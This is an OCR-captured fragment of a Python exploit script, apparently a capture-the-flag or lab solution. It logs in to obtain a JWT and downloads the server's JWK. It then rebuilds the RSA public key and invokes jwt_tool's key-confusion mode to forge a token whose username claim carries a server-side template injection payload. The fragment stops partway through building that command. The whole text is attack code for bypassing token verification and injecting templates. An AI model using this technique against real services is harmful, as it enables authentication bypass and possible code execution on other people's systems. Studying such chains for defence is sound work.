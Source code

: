 ```python
# Login to get JWT
def login_user(username, password):
    session = requests.Session()
    print(f"[*] Attempting to login user: {username}")
    response = session.post(
        LOGIN_URL, data={"username": username, "password": password})

    if response.status_code == 303:
        response = session.get(BASE_URL)

    token = session.cookies.get("token")
    if token:
        print(f"[*] Retrieved JWT: {token}")
    else:
        print(f"[!] Failed to retrieve JWT")
    return token

# Download the JWK (public key)
def download_jwk():
    print(f"[*] Attempting to download JWK...")
    response = requests.get(JWK_URL)

    if response.status_code == 200:
        print("[*] JWK download successful")
        print(f"[*] JWK Response: {response.json()}")
        return response.json()['keys'][0]
    else:
        print(f"[!] Failed to download JWK: {response.text}")
        return None

# Recreate the RSA public key from JWK components (n and e) and save it to a file
def rsa_public_key_from_jwk(jwk):
    print(f"[*] Recreating RSA Public Key from JWK...")

    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))

    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')

    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')

    # Save the public key to a file with a newline at the end
    with open("recovered_public.key", "wb") as f:
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

    print(
        f"[*] Recreated RSA Public Key saved to 'recovered_public.key':\n{public_key_pem.decode()}")
    return

# Tamper JWT with jwt_tool
def modify_jwt_with_tool(token):
    print(f"[*] Modifying JWT with jwt_tool...")

    command = [
    "python", f"{JWT_TOOL_PATH}/jwt_tool.py", token, "-X", "k", "-pk", "./recovered_public.key", "-I", "-pc", "username", "-pv", SSTI_PAYLOAD
    ]

```